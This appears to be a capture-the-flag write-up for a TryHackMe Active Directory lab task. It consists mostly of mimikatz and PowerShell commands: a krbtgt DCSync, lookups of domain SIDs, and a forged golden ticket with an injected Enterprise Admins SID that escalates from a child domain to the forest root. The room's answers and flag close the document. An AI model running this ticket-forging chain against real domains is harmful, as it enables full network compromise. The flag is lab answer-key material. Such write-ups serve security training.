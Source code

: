 ## Task 8

```powershell
# mimikatz session from previous task
# -----------------------------------

lsadump::dcsync /user:za\krbtgt
```

```powershell
Get-ADComputer -Identity "THMDC"


DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc


DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-1326264276-632209373-519
```

```powershell
# mimikatz session from previous task
# -----------------------------------

kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```

```powershell
type \\thmrootdc.tryhackme.loc\C$\Users\Administrator\Desktop\flag6.txt
```

Answer 1:
> Directional trust

Answer 2:
> krbtgt

Answer 2:
> Inter-Realm TGT

Answer 3:
> THM{Full.EA.Compromise}
